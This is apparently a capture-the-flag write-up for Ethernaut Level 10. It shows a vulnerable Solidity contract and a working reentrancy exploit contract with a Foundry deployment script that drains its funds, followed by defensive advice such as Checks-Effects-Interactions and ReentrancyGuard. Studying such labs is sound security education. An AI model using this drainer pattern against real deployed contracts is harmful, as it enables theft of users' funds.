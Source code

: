 # Level 10 - Re-entrancy ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/10" %}

### Level Setup

{% hint style="info" %}
The goal of this level is for you to steal all the funds from the contract.

&#x20; Things that might help:

* Untrusted contracts can execute code where you least expect it.
* Fallback methods
* Throw/revert bubbling
* Sometimes the best way to attack a contract is with another contract.
* See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Reentrance.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
{% endcode %}

### Exploit

The exploit is a standard reentrancy attack made possible because the funds are sent before the state variable is updated. The receiving contract can then call the withdraw function again, leading to more funds being withdrawn than should have been available.

1. Call the `withdraw()` function from the `receive()` function.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-10

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-10

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level10.sol" %}

{% code title="src/Level10.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

/**
 * Explainer from: https://solidity-by-example.org/fallback
 * ETH is sent to contract
 *      is msg.data empty?
 *           /    \
 *         yes    no
 *         /       \
 *    receive()?  fallback()
 *      /     \
 *    yes     no
 *    /        \
 * receive()  fallback()
 */

// ================================================================
// │                       LEVEL 10 - REENTRANCY                  │
// ================================================================
contract Reentrancy {
    IReentrance targetContract;
    uint256 attackValue;

    constructor(address _targetContractAddress) payable {
        targetContract = IReentrance(_targetContractAddress);
        attackValue = address(targetContract).balance;
        if (attackValue == 0) revert("Target contract has no funds to exploit");
        if (attackValue > address(this).balance) revert("Target contract has more funds than the exploit contract");
    }

    function attack() public {
        // Attack contract
        targetContract.donate{value: attackValue}(address(this));
        targetContract.withdraw(attackValue);

        (bool refundSuccess,) = address(msg.sender).call{value: address(this).balance}("");
        if (!refundSuccess) revert("Refund call failed");
    }

    receive() external payable {
        uint256 targetBalance = address(targetContract).balance;
        if (targetBalance >= attackValue) {
            targetContract.withdraw(attackValue);
        }
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level10.s.sol" %}

{% code title="script/Level10.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {Reentrancy} from "../src/Level10.sol";

// ================================================================
// │                       LEVEL 10 - REENTRANCY                  │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        Reentrancy reentrancy = new Reentrancy{value: 1 ether}(targetContractAddress);
        reentrancy.attack();
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and _re-enter_ your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

&#x20;

**The DAO Hack**

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
{% endhint %}

### Notes

* No function, including the `receive()` function, can be invoked from logic in the constructor.
